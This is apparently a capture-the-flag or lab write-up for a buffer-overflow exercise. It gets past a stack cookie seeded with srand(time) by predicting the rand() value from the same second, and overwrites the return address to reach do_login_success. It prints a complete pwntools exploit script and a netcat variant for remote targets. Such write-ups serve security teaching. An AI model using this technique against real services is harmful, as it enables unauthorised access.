 # Task 3

In this task we have an ELF binary that asks for a password (almost the same as the binary from the first and second task). We have to buffer overflow it in order to manipulate it as we wish.

The user interaction is the same as in the first and second task with the correct length being "8".

Just like in the second task we have to overflow the return address of our main function and change it to another function from the binary called *do_login_success*, but now we have to bypass a stack cookie protection. Just like before we will open the binary using IDA.

![alt text](mainfunc.png?raw=true)

As you can see, differently from the previous tasks, in this binary is added one variable that is initialised with a global variable and the last if sequence that checks whether that variable was changed or not. If we lookup that variable "v12" we will see that it is being initialised with a random value within the *setup* function.

![alt text](stackcookie.png?raw=true)

Let's watch this variable inside edb-debugger and see if what can we do about it. We set a breakpoint at 0x0040126C where the v12 is being set.

![alt text](stackcookie2.png?raw=true)

In the image above we can see the "mov" instruction and the values corresponding (EAX and the value on the stack) highlighted. Now we go forward to the point where we will see our input on the stack and see how much we need to overflow in order to reach the return address, just like in the task 2.

![alt text](stackcookie3.png?raw=true)

As we can see in the image above, in order to reach the return address we have to try to set the "v12" value from the stack the same. But if we run this multiple times, we see that every time the value is different. So in order to bypass this i searched on the web and found this youtube video (https://www.youtube.com/watch?v=aE6GfLRP_e0&t=570s). It basically says that *srand* function is a deterministic function and if we run this same function at the same time (the same second), but in another program, we will get the same seed and the *rand* function will produce the same value. So if we try to recreate this technique but for our binary (looking back at the debugger stack, just like we did in the second task with retrieving the *do_login_success* address) we will need 8 bytes of "A",  36 bytes of zero, 4 bytes of cookie, 8 bytes of zero, and the new return address written in the form of 8 bytes. The python code will look like this:

```
from ctypes import *
from pwn import *

io = process("./task3")

libc = cdll.LoadLibrary('libc.so.6')
libc.srand(libc.time(0))
cookie_value = libc.rand()
cookie_str = str(hex(cookie_value))
good_cookie_str = cookie_str[8:10] + cookie_str[6:8] + cookie_str[4:6] + cookie_str[2:4]
cookie_bytes = bytes.fromhex(good_cookie_str)

io.recvline()
io.recvline()
io.recvline()
io.recvline()
io.recvline()
io.recvline()
io.recvline()
io.recvline()
io.recvline()

io.sendline(b'\x41'*8 + b'\x00'*36 + cookie_bytes + b'\x00'*8 + b'\xf6\x11\x40\x00' + b'\x00'*4)

hello = io.recvline()
print(hello)
hello = io.recvline()
print(hello)
hello = io.recvline()
print(hello)
```

![alt text](cracked.png?raw=true)

If we want to exploit a remote service we would change the process function with the following:

```
io = process(["/bin/nc", "ip", "port"])
```


